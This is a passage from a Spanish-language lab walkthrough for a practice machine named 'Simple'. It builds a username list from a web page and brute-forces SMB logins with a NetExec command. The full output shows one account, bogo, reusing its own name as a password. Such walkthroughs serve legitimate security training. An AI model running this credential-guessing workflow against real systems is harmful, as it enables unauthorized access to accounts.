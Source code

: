 <figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que hay varios nombres de usuario en los cuales se estan nombrando sobre las gracias de la pagina, por lo que nos montaremos una lista de usuarios.

> users.txt

```
ruy
marcos
lander
bogo
vaiper
```

Y como contraseñas vamos a probar con la misma lista, para realizar un poco de fuerza bruta hacia el servidor `SMB` con la herramienta `NetExec`.

## NetExec

```shell
netexec smb <IP> -u users.txt -p users.txt --ignore-pw-decoding
```

Info:

```
SMB         192.168.1.156   445    SIMPLE           [*] Windows 10 / Server 2019 Build 17763 x64 (name:SIMPLE) (domain:Simple) (signing:False) (SMBv1:False)
SMB         192.168.1.156   445    SIMPLE           [-] Simple\ruy:ruy STATUS_LOGON_FAILURE 
SMB         192.168.1.156   445    SIMPLE           [-] Simple\marcos:ruy STATUS_LOGON_FAILURE 
SMB         192.168.1.156   445    SIMPLE           [-] Simple\lander:ruy STATUS_LOGON_FAILURE 
SMB         192.168.1.156   445    SIMPLE           [-] Simple\bogo:ruy STATUS_LOGON_FAILURE 
SMB         192.168.1.156   445    SIMPLE           [-] Simple\vaiper:ruy STATUS_LOGON_FAILURE 
SMB         192.168.1.156   445    SIMPLE           [-] Simple\ruy:marcos STATUS_LOGON_FAILURE 
SMB         192.168.1.156   445    SIMPLE           [-] Simple\marcos:marcos STATUS_LOGON_FAILURE 
SMB         192.168.1.156   445    SIMPLE           [-] Simple\lander:marcos STATUS_LOGON_FAILURE 
SMB         192.168.1.156   445    SIMPLE           [-] Simple\bogo:marcos STATUS_LOGON_FAILURE 
SMB         192.168.1.156   445    SIMPLE           [-] Simple\vaiper:marcos STATUS_LOGON_FAILURE 
SMB         192.168.1.156   445    SIMPLE           [-] Simple\ruy:lander STATUS_LOGON_FAILURE 
SMB         192.168.1.156   445    SIMPLE           [-] Simple\marcos:lander STATUS_LOGON_FAILURE 
SMB         192.168.1.156   445    SIMPLE           [-] Simple\lander:lander STATUS_LOGON_FAILURE 
SMB         192.168.1.156   445    SIMPLE           [-] Simple\bogo:lander STATUS_LOGON_FAILURE 
SMB         192.168.1.156   445    SIMPLE           [-] Simple\vaiper:lander STATUS_LOGON_FAILURE 
SMB         192.168.1.156   445    SIMPLE           [-] Simple\ruy:bogo STATUS_LOGON_FAILURE 
SMB         192.168.1.156   445    SIMPLE           [-] Simple\marcos:bogo STATUS_LOGON_FAILURE 
SMB         192.168.1.156   445    SIMPLE           [-] Simple\lander:bogo STATUS_LOGON_FAILURE 
SMB         192.168.1.156   445    SIMPLE           [-] Simple\bogo:bogo STATUS_PASSWORD_EXPIRED 
SMB         192.168.1.156   445    SIMPLE           [-] Simple\vaiper:bogo STATUS_LOGON_FAILURE 
SMB         192.168.1.156   445    SIMPLE           [-] Simple\ruy:vaiper STATUS_LOGON_FAILURE 
SMB         192.168.1.156   445    SIMPLE           [-] Simple\marcos:vaiper STATUS_LOGON_FAILURE 
SMB         192.168.1.156   445    SIMPLE           [-] Simple\lander:vaiper STATUS_LOGON_FAILURE 
SMB         192.168.1.156   445    SIMPLE           [-] Simple\bogo:vaiper STATUS_LOGON_FAILURE 
SMB         192.168.1.156   445    SIMPLE           [-] Simple\vaiper:vaiper STATUS_LOGON_FAILURE
```